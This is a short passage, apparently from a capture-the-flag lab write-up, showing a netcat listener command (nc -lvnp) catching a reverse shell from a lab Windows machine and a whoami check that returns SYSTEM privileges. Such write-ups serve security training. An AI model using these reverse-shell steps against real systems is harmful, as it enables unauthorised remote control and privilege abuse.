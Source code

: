 Now we have a reverse shell as system!

{% highlight bash %}
$ nc -lvnp 9258                                                                                                                                                                                                                      [78/80]
listening on [any] 9258 ...                                
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 52826                                                            
Microsoft Windows [Version 10.0.19042.867]                 
(c) 2020 Microsoft Corporation. All rights reserved.       
                                                           
C:\WINDOWS\system32>whoami                                 
whoami                                                     
nt authority\system  

{% endhighlight %}



